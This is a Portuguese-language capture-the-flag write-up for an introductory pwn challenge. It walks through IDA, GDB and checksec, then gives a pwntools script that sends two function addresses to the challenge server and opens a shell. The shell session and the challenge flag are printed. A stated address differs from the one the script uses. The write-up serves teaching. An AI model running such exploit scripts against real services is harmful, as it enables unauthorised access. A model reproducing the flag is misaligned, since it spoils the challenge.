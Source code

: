 # Introdução a Pwn

### Descricao
> Esse chall não é para ser complexo, mas apenas uma introdução às ferramentas necessárias para pwn como um geral, para quem nunca teve contato com a área.
>
> Dito isso, divirta-se!
>
> `nc ganesh.icmc.usp.br 5550`

<details><summary>Hint</summary>

> Decompilou? Está confuso mesmo, decompilador não é perfeito, mas é só mandar os endereços das duas funções

</details>

<details><summary>Flag</summary>

> SEMCOMP{W3lc0me_70_7h3_jUNgl3!--pWn_1s_4_den53_f0Re5t}

</details>



---

### Arquivo

[intro.zip](../../assets/files/intro.zip)

---

### Analise inicial

Ao extrair o arquivo, recebemos um único binário `intro`. Como este é um chall introdutório, a primeira coisa a se fazer é executá-lo:

```
[user@hostname] ./intro
Olá!
Esse chall busca ser nada além de uma introdução às ferramentas à sua disposição para serem usadas em pwn
Se você não tem o código-fonte do programa e nem a paciência para ler Assebmly, existem decompiladores que tentam reverter do Assembly para C
	Sugestão: IDA Free / Ghidra
Para uma análise de toda a memória do programa durante sua execução, sugere-se o GBD, mais especificamente, sua extensão voltada para pwning, pwndbg (procure no github)
E, por fim, caso você não saiba escrever algo além de ASCII com seu teclado, existe a biblioteca pwntools para Python, que permite sua interação com o programa e o envio de bytes não ASCII
O como usar cada um fica a cargo do leitor
E um spoiler dos challs de pwn: muitos envolvem chamar uma shell. Boa sorte!

Insira a resposta para merecer a flag: 
```

Vemos entao uma mensagem do criador do chall nos dizendo para instalar as ferramentas úteis, vamos utilizá-las entao a partir de agora. Para uma breve referência das utilidades, recomendo o [Gitbook do Ganesh](https://gitbook.ganeshicmc.com/engenharia-reversa/gdb), bem como nosso [Amigo de Três Letras](https://chatgpt.com/). 

Além das ferramentas citadas, é necessario a instalacao da biblioteca `pwntools` do python, para isso utilize o comando no terminal:

```sh
pip install pwntools
```

---

### Decompilando

Abrindo o executável com o IDA, pressionamos `f5` para decompilá-lo. 

![Executável Decompilado](https://private-user-images.githubusercontent.com/205550948/505743404-864d218d-7fde-4909-910b-bb833d067e3c.png?jwt=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJnaXRodWIuY29tIiwiYXVkIjoicmF3LmdpdGh1YnVzZXJjb250ZW50LmNvbSIsImtleSI6ImtleTUiLCJleHAiOjE3NjE0OTQ3OTUsIm5iZiI6MTc2MTQ5NDQ5NSwicGF0aCI6Ii8yMDU1NTA5NDgvNTA1NzQzNDA0LTg2NGQyMThkLTdmZGUtNDkwOS05MTBiLWJiODMzZDA2N2UzYy5wbmc_WC1BbXotQWxnb3JpdGhtPUFXUzQtSE1BQy1TSEEyNTYmWC1BbXotQ3JlZGVudGlhbD1BS0lBVkNPRFlMU0E1M1BRSzRaQSUyRjIwMjUxMDI2JTJGdXMtZWFzdC0xJTJGczMlMkZhd3M0X3JlcXVlc3QmWC1BbXotRGF0ZT0yMDI1MTAyNlQxNjAxMzVaJlgtQW16LUV4cGlyZXM9MzAwJlgtQW16LVNpZ25hdHVyZT0wODNlNGMwN2NhMjQ2NWZhOWNkNzkyOTg4YTg1OWYwYTk2YzgwZmNmZDE1MTIwYTBjYTJlMjM4ZDJlMGQ5M2I3JlgtQW16LVNpZ25lZEhlYWRlcnM9aG9zdCJ9.NbDXxQXmdtZfyPcCHg8_4IL0d3ZTgxRK-5LFIBEZ4V0)

> Arquivo decompilado com o IDA. Perceba que as variáveis estao com nomes estranhos, isso é uma limitacao do decompilador

Vamos entao renomear as variáveis para que o funcionamento do programa fique mais claro:

![Executável Decompilado com Variáveis Nomeadas](https://private-user-images.githubusercontent.com/205550948/505743609-4f89b9eb-5067-4864-b642-2fa43c1a8d52.png?jwt=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJnaXRodWIuY29tIiwiYXVkIjoicmF3LmdpdGh1YnVzZXJjb250ZW50LmNvbSIsImtleSI6ImtleTUiLCJleHAiOjE3NjE0OTQ5MTUsIm5iZiI6MTc2MTQ5NDYxNSwicGF0aCI6Ii8yMDU1NTA5NDgvNTA1NzQzNjA5LTRmODliOWViLTUwNjctNDg2NC1iNjQyLTJmYTQzYzFhOGQ1Mi5wbmc_WC1BbXotQWxnb3JpdGhtPUFXUzQtSE1BQy1TSEEyNTYmWC1BbXotQ3JlZGVudGlhbD1BS0lBVkNPRFlMU0E1M1BRSzRaQSUyRjIwMjUxMDI2JTJGdXMtZWFzdC0xJTJGczMlMkZhd3M0X3JlcXVlc3QmWC1BbXotRGF0ZT0yMDI1MTAyNlQxNjAzMzVaJlgtQW16LUV4cGlyZXM9MzAwJlgtQW16LVNpZ25hdHVyZT0xYzRiYzEzYjhkYzA3Y2ZiNDgyNDZiZTdkYjk0MzU1ODY1ODhhMDNlZTMwZjk1NmQwNjczMDIwMDRlMDEzMDhmJlgtQW16LVNpZ25lZEhlYWRlcnM9aG9zdCJ9.Seu0MJhJVK0_JEL0qDeGtIJKaIFzc3j1Qb3NjE-0E4o)

> Arquivo decompilado e com as variáveis renomeadas.

Basicamente, o programa compara se a string que passamos no input é igual ao endereco da funcao win (em little endian) concatenado ao endereco da funcao main (também em little endian) e entao abre uma shell, entao a única coisa que precisamos fazer é descobrir qual o endereco dessas duas funcoes.

---

### Usando o GDB

Apesar de existirem outras formas de se descobrir o endereco das funcoes, como por exemplo usando `objdump -D intro`, utilizaremos o GDB por ser a ferramenta citada pelo autor do chall.

Rodamos entao no terminal `gdb intro` ou `pwndbg intro` para abrir o GDB e em seguida `info functions` para mostrar as funcoes do programa.

![Funcoes no GDB](https://private-user-images.githubusercontent.com/205550948/505743670-7321cbc1-4608-4641-ba6f-ae7841de9925.png?jwt=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJnaXRodWIuY29tIiwiYXVkIjoicmF3LmdpdGh1YnVzZXJjb250ZW50LmNvbSIsImtleSI6ImtleTUiLCJleHAiOjE3NjE0OTQ5NTgsIm5iZiI6MTc2MTQ5NDY1OCwicGF0aCI6Ii8yMDU1NTA5NDgvNTA1NzQzNjcwLTczMjFjYmMxLTQ2MDgtNDY0MS1iYTZmLWFlNzg0MWRlOTkyNS5wbmc_WC1BbXotQWxnb3JpdGhtPUFXUzQtSE1BQy1TSEEyNTYmWC1BbXotQ3JlZGVudGlhbD1BS0lBVkNPRFlMU0E1M1BRSzRaQSUyRjIwMjUxMDI2JTJGdXMtZWFzdC0xJTJGczMlMkZhd3M0X3JlcXVlc3QmWC1BbXotRGF0ZT0yMDI1MTAyNlQxNjA0MThaJlgtQW16LUV4cGlyZXM9MzAwJlgtQW16LVNpZ25hdHVyZT02ZWY0MzQ2NDAxZGVmYzE5ODMxZGQ4ODExZGRhYTIyYmJmOWJlMTlkOTU3NTY1MTdmYmNjNGZkODdjODk0ZmJhJlgtQW16LVNpZ25lZEhlYWRlcnM9aG9zdCJ9.35GKcssGbqHUomzY3FYFGWFpbDAyIjh_IruYAppgWzA)
> Funcoes que aparecem no GDB

Vemos entao que o endereco da funcao `random_useless_function_lol` é `0x401150` e da funcao `main` é `0x40115d`

<details><summary>Um pequeno detalhe</summary>

Só podemos pegar os enderecos brutos porque o arquivo nao é `PIE (Position Independent Code)`, podemos checar isso usando:

```
[user@hostname] pwn checksec intro

Arch:       amd64-64-little
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x400000) <-------
Stripped:   No
```

O que significa que o endereco base do programa nao é randomizado a cada execucao. Voce pode entender melhor sobre isso [aqui](https://ir0nstone.gitbook.io/notes/binexp/stack/pie)

</details>

---

### Resolvendo o chall

Temos todas as informacoes que precisamos para resolver o chall, mas falta entao mandarmos o input correto para o processo remoto, para isso usaremos o `pwntools` com o seguinte script:

```python
#solve.py
from pwn import *

host = 'ganesh.icmc.usp.br' 
port = 5550

io = remote(host, port) # Cria um processo remoto na variável 'io'

# Define os enderecos de cada funcao
win_addr = 0x0000000000401156
main_addr = 0x000000000040115d

payload = p64(win_addr) + p64(main_addr) # Concatena em little-endian ambos os enderecos

io.sendline(payload) # Envia o payload

io.interactive() # Cria um processo interativo (necessário para ver os resultados)
```

Com isso, rodando `python3 solve.py`, abrimos uma shell no servidor remoto

```
[user@hostname] python3 solve.py
[+] Opening connection to ganesh.icmc.usp.br on port 5550: Done
[*] Switching to interactive mode
Olá!
Esse chall busca ser nada além de uma introdução às ferramentas à sua disposição para serem usadas em pwn
Se você não tem o código-fonte do programa e nem a paciência para ler Assebmly, existem decompiladores que tentam reverter do Assembly para C
	Sugestão: IDA Free / Ghidra
Para uma análise de toda a memória do programa durante sua execução, sugere-se o GBD, mais especificamente, sua extensão voltada para pwning, pwndbg (procure no github)
E, por fim, caso você não saiba escrever algo além de ASCII com seu teclado, existe a biblioteca pwntools para Python, que permite sua interação com o programa e o envio de bytes não ASCII
O como usar cada um fica a cargo do leitor
E um spoiler dos challs de pwn: muitos envolvem chamar uma shell. Boa sorte!

Insira a resposta para merecer a flag: 

Well done!
I'm to lazy to compile twice with different flags, so here is a shell for you!
$ ls
flag.txt
intro
run
$ cat flag.txt
SEMCOMP{W3lc0me_70_7h3_jUNgl3!--pWn_1s_4_den53_f0Re5t}
```
